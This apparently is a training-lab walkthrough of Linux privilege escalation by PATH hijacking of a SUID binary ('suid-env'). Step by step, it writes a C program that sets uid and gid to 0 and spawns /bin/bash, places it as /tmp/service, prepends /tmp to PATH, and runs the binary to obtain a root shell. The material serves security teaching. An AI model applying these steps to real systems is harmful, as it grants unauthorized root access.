





1.  the first thing we want to do when facing a binary we are not familiar with, is run it to see what it does.  
    `/usr/local/bin/suid-env`  

    

    **NOTE:** here we can see that the binary appears to be start the apache2 service.
    
2.  the next thing we want to do is to try and extract strings from the binary. This well help us determine if any interesting binaries are being loaded during execution.  
    `strings /usr/local/bin/suid-env`  
    
    

    **NOTE:** In the strings we can see that the command service apache2 start in the binary is used without an absolute path
    
3.  Now that we have found this vulnerability, we need to edit our PATH variable to include a writeable directory.  
    `echo $PATH`  
    
    

    **NOTE:** When the command service apache2 start is executed by the suid-path binary, it is done so without using the absolute path. This means that the system will check each of the directories listed in our PATH environmental variable from left to right for the service binary, and then execute it from the first directory where it is found.
    
4.  All of the default directories in the PATH are NOT writeable for standard users. That means we will just have to add a new one.  
    `export PATH=/tmp:$PATH`  
    
    

    **NOTE:** Any user has the ability to edit their own PATH; and, any new directory added to a users PATH gets placed on the leftmost side,This means that any command that is executed without the absolute path to the binary, will check **/tmp** first.
    
5.  Now all we need to do is Create a malicious binary named **service** and place it in the **/tmp** folder.  
    `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c`
    
6.  Our malicious C program looks good. Now all we need to do is compile it  
    `gcc /tmp/service.c -o /tmp/service`
    
7.  Our exploit is all ready. Now when we execute suid-path, the program will ride the PATH to find the service command, and execute our malicious version of service before it ever finds the real binary.  
    `/usr/local/bin/suid-env`  
    
    